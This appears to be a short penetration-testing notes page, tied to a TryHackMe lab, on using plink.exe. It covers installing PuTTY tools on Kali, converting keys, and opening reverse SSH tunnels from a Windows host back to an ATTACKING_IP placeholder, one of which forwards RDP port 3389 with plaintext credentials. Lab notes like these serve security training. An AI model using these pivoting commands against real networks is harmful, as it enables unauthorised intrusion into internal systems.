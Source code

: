 # Plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client6

Install PUTTY on [[Kali]]
```bash
sudo apt install putty-tools
# Found on kali at
/usr/share/windows-resources/binaries/plink.exe
```

[Download latest from](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Convert SSH Keys into PUTTY keys 
```bash
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

Use PUTTY on Windows 
```powershell
# `cmd.exe /c echo y` = non-interactive shell (Windows shells are difficult to stabilise)
# Yikes on password recording here!
# To get a response prompt automate the confirmation 
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 $IPaddressYouCanReach
# Keyfile avaliable
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

## References

[THM Wreath Room](https://tryhackme.com/room/wreath)
[chiark - putt download](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
